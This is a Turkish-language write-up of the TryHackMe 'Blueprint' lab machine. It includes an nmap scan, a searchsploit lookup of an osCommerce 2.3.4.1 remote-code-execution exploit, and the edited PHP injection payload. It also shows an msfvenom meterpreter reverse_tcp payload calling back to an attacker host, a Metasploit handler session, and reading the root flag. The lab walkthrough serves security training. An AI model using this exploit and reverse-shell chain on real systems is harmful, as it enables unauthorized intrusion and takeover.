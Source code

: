 ```yaml
---
title: "Blueprint Makine Çözümü"
date: "2025-03-22"
tags: ["ctf", "tryhackme"]
---
```


Merhabalar, bu yazımda sizlere [TryHackMe](https://tryhackme.com/) platformunda bulunan "Blueprint" isimli makinenin çözümü anlatacağım. Keyifli Okumalar...

1 - *Nmap* aracını kullanarak makine üzerindeki açık portlar ve servisler hakkında detaylı bilgi ediniyorum.

```system
> nmap -sS -sV 10.10.172.220
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-05 17:29 +03
Nmap scan report for 10.10.172.220
Host is up (0.31s latency).
Not shown: 987 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
```

2 - Makinenin 8080 numaralı portuna gittiğimde "oscommerce-2.3.4" adında bir dizinle karşılaşıyorum. Daha sonra bu bilgiyi searchsploit aracında aratıyorum. 44374 numaralı exploiti indiriyorum.

```
> searchsploit "oscommerce 2.3.4"                                                                                  
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
osCommerce 2.3.4 - Multiple Vulnerabilities                                         | php/webapps/34582.txt
osCommerce 2.3.4.1 - 'currency' SQL Injection                                       | php/webapps/46328.txt
osCommerce 2.3.4.1 - 'products_id' SQL Injection                                    | php/webapps/46329.txt
osCommerce 2.3.4.1 - 'reviews_id' SQL Injection                                     | php/webapps/46330.txt
osCommerce 2.3.4.1 - 'title' Persistent Cross-Site Scripting                        | php/webapps/49103.txt
osCommerce 2.3.4.1 - Arbitrary File Upload                                          | php/webapps/43191.py
osCommerce 2.3.4.1 - Remote Code Execution                                          | php/webapps/44374.py
osCommerce 2.3.4.1 - Remote Code Execution (2)                                      | php/webapps/50128.py
------------------------------------------------------------------------------------ ---------------------------------

> searchsploit -m 44374                                                                                            
  Exploit: osCommerce 2.3.4.1 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/44374
     Path: /usr/share/exploitdb/exploits/php/webapps/44374.py
    Codes: N/A
 Verified: True
File Type: ASCII text
Copied to: /home/alper/Desktop/TRYHACKME/44374.py
```

3 - Exploit içerisindeki base_url ve target_url değişkenlerini aşağıdaki gibi düzenliyormu. Exploit içerisindeki "ls" komutu kısmını siliyorum. Yerine "msfvenom" aracı ile bir reverse tcp payloadını yerleştiriyorum. Daha sonra "msfconsole" aracını çalıştırarak multi/handler bağlantısını ayarlıyorum. *python3 44374.py" ile kodu çalıştırıyorum ve exploiti sisteme yüklüyorum. Daha sonra bağlantıya tıklayarak reverse_tcp bağlantımı da elde etmiş oluyorum.

```system
base_url = "http://10.10.172.220:8080//oscommerce-2.3.4/catalog/"
target_url = "http://10.10.172.220:8080/oscommerce-2.3.4/catalog/install/install.php?step=4"
```

```system
payload = '\');'
payload += 'system("ls");'    # this is where you enter you PHP payload
payload += '/*'
```

```system
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.8.94.51 LPORT=4444 -e php/base64 raw                            
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of php/base64
php/base64 succeeded with size 1507 (iteration=0)
php/base64 chosen with final size 1507
Payload size: 1507 bytes
```

```system
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > show options 
```

```system
> python3 44374.py                                                                                                 
[+] Successfully launched the exploit. Open the following URL to execute your code

http://10.10.172.220:8080//oscommerce-2.3.4/catalog/install/includes/configure.php
```

```system
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.94.51:4444 
[*] Sending stage (39927 bytes) to 10.10.172.220
[*] Meterpreter session 1 opened (10.8.94.51:4444 -> 10.10.172.220:49329) at 2023-06-05 17:46:37 +0300

meterpreter >
```

4 -  CTRL+Z yaparak session'u arkaplana alıyorum ve *sessions -u SESSION_NUMBER* komutu ile mevcut oturumdaki yetkimi yükseltiyorum. Bayrağı okuyarak odayı tamamlıyorum.

```
> type c:\users\administrator\desktop\root.txt.txt
```